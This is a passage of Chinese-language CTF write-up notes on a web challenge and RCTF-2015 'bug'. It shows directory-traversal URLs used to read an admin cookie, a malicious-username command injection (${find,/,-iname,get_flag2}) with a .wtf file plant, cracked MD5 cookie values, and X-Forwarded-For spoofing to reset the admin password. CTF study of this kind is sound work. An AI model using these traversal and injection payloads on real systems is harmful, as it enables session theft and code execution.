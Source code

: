   ```工控云管理系统新添加的登录和注册页面存在漏洞，请找出flag。```
		
	4. %2a(就是编码后的*)可以列出当前目录内容
	`继续分析, 进到/profile.wtf?user=../../../../../../../../../%2a  可以看到  ==> users/../../../../../../../../../bin <== ==>`
	
	哦, 是从users目录跳出去的, 可以推测会为每个用户在users目录里新建一个文件(夹), 为了防止恶意遍历还做了混淆(可浏览查证/profile.wtf?user=/../users/%2a)
	
	通过post传入文件名参数,缺少过滤导致可用../回退到上级目录,确认存在directory travelsal
		
		最后, 已经确定是目录遍历的情况下, 在第2点里, 试着查看users目录下的内容, 看到admin及其cookie.
		记录下来token,退出后导入cookie即可(导入cookie方法可以百度,可以F12进console调,也可以用chrome插件EDITTHISCOOKIE)
		
		#### payload:
		
		1. 看到admin的cookie	/post.wtf?post=../users   登录进profile得到前一半flag.
			```Flag: xctf{cb49256d1ab48803149e5ec49d3c29ca}	```https://blog.cindemor.com/post/ctf-fairy-1.html
			
		2. 查看另一半flag的线索
			a. /profile.wtf?user=../%2a
			b. 初始化的代码	/spinup.sh
			c. 整个程序的源码 /wtf.sh 以及 /post.wtf?post=../../
			d. 列出users_lookup下的目录, /post.wtf?post=../users
			e. 注册恶意用户	
			
			```php
			${find,/,-iname,get_flag2}
			$/usr/bin/get_flag2
			$/usr/bin/get_flag2
			```
			
			提交含有目录穿越注入代码的回复:	`/reply.wtf?post=../users_lookup/sh.wtf%09`
			最终得到**神仙**  flag2```149e5ec49d3c29ca}```
	
10. ### RCTF-2015 bug

    看到cookie里面有个username, 内容很像md5, 那么破解一下, cmd5收费...行吧
```
123-82ed7a14920dd2db1b6657348656eaa5
root-46470eaadfc99c960cd23ddef3398daf
admin-4b9987ccafacb8d8fc08d22bbca797ba
```
原本是想改cookie绕过, 可是加密方式不知道. 最后还是重置密码那里进去抓包改的admin密码.
改xff为127, 进去看到注释`/index.php?module=filemanage&do=???`,跟进发现这么一句

```php+HTML
<script type="text/javascript">
	document.getElementById('cur').className = "cur";
</script>
```
filename怀疑是lfi或者命令注入, bp走一走, 这期间看了一下服务器环境, 待会儿有用:
```php
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.26
```
看了下writeup, 原来是要进到upload上传界面(唉, 本菜思路不够活跃想不到).
上传的话, 测试了一下, 有以下反映:
